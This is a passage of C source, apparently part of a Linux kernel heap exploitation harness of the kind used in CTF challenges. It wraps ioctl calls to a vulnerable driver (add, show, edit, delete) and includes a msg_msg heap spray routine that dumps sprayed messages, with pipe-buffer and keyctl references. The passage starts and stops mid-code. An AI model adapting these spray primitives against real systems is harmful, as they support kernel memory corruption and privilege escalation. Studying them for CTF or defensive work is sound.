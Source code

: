 ```c
        initPipeBufferN(pipe_fd,0x100);
    }
    enum spray_cmd {
    ADD,
    FREE,
    EXIT,
    };
#endif // 
int fd = 0;

typedef struct payload{
    size_t size;
    size_t idx;
    size_t buf;
} payload;
void add(size_t size){
    size_t cmd = 0x1001;
    ioctl(fd,cmd,size);
}
void del(size_t idx){
    ioctl(fd,0x1004,idx);
}
char* show(size_t idx,size_t size){


    payload pay;
    pay.idx = idx;
    pay.buf = calloc(1,size);
    pay.size = size;
    ioctl(fd,0x1002,&pay);
    return pay.buf;
}

void dump(size_t idx,size_t size, char * buf){


    payload pay;
    pay.idx = idx;
    pay.buf = buf;
    pay.size = size;
    ioctl(fd,0x1002,&pay);
}
void edit(size_t idx, size_t size, size_t buf){
    payload pay;
    pay.idx = idx;
    pay.buf = buf;
    pay.size = size;
    ioctl(fd,0x1003,&pay);
}
int msgSprayPC(msgSpray_t *spray)
{
	while(spray) {
		for(int i=0; i<spray->num; i++) 
		{
            msgMsg * recv  = msgPeek(spray->msg_id,spray->size);
            hexdump(recv->mtext,0x40);
        }

		// msgDel(spray->msg_id);
		spray = spray->next;
	}
}
int key_revoke(int keyid)
```